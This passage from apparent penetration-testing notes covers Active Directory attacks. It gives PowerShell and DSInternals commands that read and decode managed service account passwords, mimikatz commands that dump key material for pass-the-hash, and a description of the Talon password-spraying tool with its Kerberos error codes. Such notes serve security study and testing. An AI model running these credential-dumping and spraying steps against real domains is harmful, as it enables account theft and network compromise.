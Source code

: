 [Get-ADServiceAccount] gets a managed service account (MSA) or performs a search to retrieve MSAs.

We can perform the following in order to see:

- Which group(s) the SPN is member of
- When the password will be changed, ...

```powershell
Get-ADServiceAccount -Filter {name -eq 'NAME'} -properties *
```

The **msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword) attribute controls who can request and receive the clear-text password.

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Filter "*" -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
 
# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
```

To retreive the hash from a SPN, we can do the following using mimikatz

```bash
mimikatz.exe
mimikatz # privilege::debug     # Ask for debug privilege for mimikatz process.
mimikatz # sekurlsa::ekeys      #    
```

With this password hash, we can perform pass the hash to compromise the Active Directory.

##### Brute-force

###### Talon

Talon is an automated authentication tool for large scale attacks while remaining less detectable.

This is done by:

- Using both a combination of both LDAP and Kerberos protocols by alternating between the two services
- Using a single or multiple domain controllers  

Command options:

- **-D**: Fully qualified domain to use
- **-Hostfile**: File containing the list of domain controllers to connect to
- **-P**: Password to use
- **-Userfile**: File containing the list of usernames
- **-sleep**: Time inbetween attempts (default 0.5)

There are two mode:

- **Enumeration Mode (-E)**: Send only Kerberos TGT pre-authentication request to the target KDC.
This is done by using checking the encrypted TGT ticket resulting from the request:

|Error ID|Code Name|Reason|
|-|-|-|
|**6**|KDC_ERR_C_PRINCIPAL_UNKNOWN|The username doesn't exist.|
|**18**|KDC_ERR_CLIENT_REVOKED|Account disabled, expired, or locked out.|
|**24**|KDC_ERR_PREAUTH_FAILED|Pre-authentication failed; usually means bad password|
